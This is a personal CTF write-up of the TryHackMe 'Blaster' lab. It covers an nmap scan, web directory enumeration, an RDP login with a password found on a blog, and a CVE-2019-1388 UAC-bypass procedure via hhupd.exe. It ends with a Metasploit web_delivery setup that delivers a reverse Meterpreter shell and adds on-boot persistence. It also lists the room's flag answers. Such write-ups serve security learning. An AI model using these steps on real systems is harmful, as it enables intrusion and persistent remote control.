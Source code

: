 # Blaster

## Mission Start!

The CTF background notes that we’ll be attacking a Windows box. So no ping responses again.

## Activate Forward Scanners and Launch Proton Torpedoes

The machine we’ll be attacking is at 10.10.223.185. As usual, we’ll start out with an [nmap](nmap.md) scan:

```bash
sudo nmap -v -oA blaster -Pn -A -T4 -sS -script vuln -p- 10.10.223.185
```

Which gives us:

```
# Nmap 7.92 scan initiated Wed Dec  8 19:55:54 2021 as: nmap -v -oA blaster -Pn -A -T4 -sS -script vuln -p- 10.10.223.185
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.223.185
Host is up (0.23s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016 (90%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.013 days (since Wed Dec  8 19:54:04 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   34.47 ms  10.13.0.1
2   ... 3
4   351.16 ms 10.10.223.185

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  8 20:12:16 2021 -- 1 IP address (1 host up) scanned in 982.31 seconds
```

FLAG 1: How many ports are open on the target? — 2

Looks like IIS running on port 80. Let’s go take a peek.

…And, it’s just the default IIS “hello world” page. Looks a damn sight prettier than Apache’s.

FLAG 2: What is the title of the webserver’s index page? — IIS Windows Server

Since there’s nothing obvious here (and because the CTF is prompting us to do so), let’s sic [gobuster](gobuster.md) on this to see if there’s anything interesting that’s not linked to the (default) index page.

```bash
gobuster -t 10 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.223.185/
```

FLAG 3: What is the hidden directory on the webserver? — /retro

Browsing to this directory reveals an entire “Retro Fanatics” website. All posts are by “Wade”.

FLAG 4: What username is associated with this hidden directory? — Wade

Pocking around a bit more reveals a somewhat cryptic comment on a post:

> Leaving myself a note here just in case I forget how to spell it: parzival

Who wants to bet that this is Wade’s password?

FLAG 5: What potential password is associated with this user? — parzival

Let’s load up [XFreeRDP](xfreerdp.md) and see if we can log in, shall we?

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:10.10.223.185 /u:Wade /p:parzival
```

Boom!

FLAG 6: What are the contents of `user.txt`? — `THM{HACK_PLAYER_ONE}`

## Breaching the Control Room

There’s no obvious files when pocking around except an hhupd.exe file on the desktop, and IE’s history is empty.

Since I know we’re looking for a CVE name, at this point I just used the Windows File Explorer to search Wade’s home directory for “CVE”. And lo-and-behold, there’s a cached HTML file in C:/Users/Wade/AppData/Local/Microsoft/Windows/INetCache/Low/IE/7Z6YUWVY called cvename[1].htm which contains a website referencing CVE-2019-1388 (it looks like a slightly older version of [the MITRE CVE page on CVE-2019-1388](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1388)).

FLAG 7: What CVE was the initially compromised user researching? — CVE-2019-1388

(I feel like the approach I just used — making an educated guess about what the CTF was looking for and then just searching for it — is kind of a cop-out. *But*, the hint for this question states that I should check IE’s history, which I did… So perhaps the room’s broken?)

Anyways, I’m guessing that the hhupd.exe file on the desktop is the one that will exploit this vulnerability, since it’s badged as needing administrative privileges and CVE-2019-1388 is a vulnerability in the UAC screen.

FLAG 8: What is the name of the executable the user was experimenting with? — hhupd.exe

In fact, a search for “CVE-2019-1388 exploit” pulls up [this page](https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/) as its first result, which references hhupd.exe and helpfully links to [a YouTube video demoing how this exploit works](https://www.youtube.com/watch?v=3BQKpPNlTSo). It looks like the steps here are:

* Try to run hhupd.exe.
* Show details on the UAC prompt.
* Click on the certificate information link.
* Click on the issuer link. This will open up an instance of IE running with elevated permissions in the background.
* Exit the UAC dialog.
* Bring up the save dialog in IE.
* Navigate to `C:/Windows/System32/*.*` and open cmd.exe.

FLAG 9: What is the output of `whoami` in the terminal spawned using the user’s exploit? — `nt authority\system`

The final flag is in the Administrator’s Desktop folder.

FLAG 10: What are the contents of `root.txt`? — `THM{COIN_OPERATED_EXPLOITATION}`

## Adoption into the Collective

Target information isn’t immediately obvious in [Metasploit](metasploit.md); after selecting `exploit/multi/script/web_delivery` we’ll need to run `info` to see all of the options.

FLAG 11: What is the target number for PSH when using `exploit/multi/script/web_delivery` in [Metasploit](metasploit.md)? — 2

Let’s set things up and run the exploit:

```msfconsole
set target 2
set SRVHOST 10.13.26.40
set LHOST 10.13.26.40
set payload windows/meterpreter/reverse_http
run -j
```

(NOTE: I found that I needed to set the SRVHOST option to get [Metasploit](metasploit.md) to deliver the exploit on the right interface.)

This particular exploit outputs and encoded [PowerShell](powershell.md) script and then starts a local listener to deliver the actual [Meterpreter](metasploit.md) shell. All we need to do is cut-and-paste into our elevated shell.

(For whatever reason, I could *only* get this exploit working with the 32-bit version of [Meterpreter](metasploit.md) *and* the `run -j` command. I’m not sure why…)

FLAG 12: What command can be used in [Meterpreter](metasploit.md) to establish on-boot persistence on this machine? — `run persistence -X`

(NOTE: [Meterpreter](metasploit.md) flags this as being deprecated now; the modern pattern seems to be to background [Meterpreter](metasploit.md) and then switch to and exploit the `exploit/windows/local/persistence` module, probably with `set STARTUP SYSTEM`.)

ELAPSED TIME: 2 h 15 min

## References

* [TryHackMe: Blaster](https://tryhackme.com/room/blaster)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> December 6, 2021
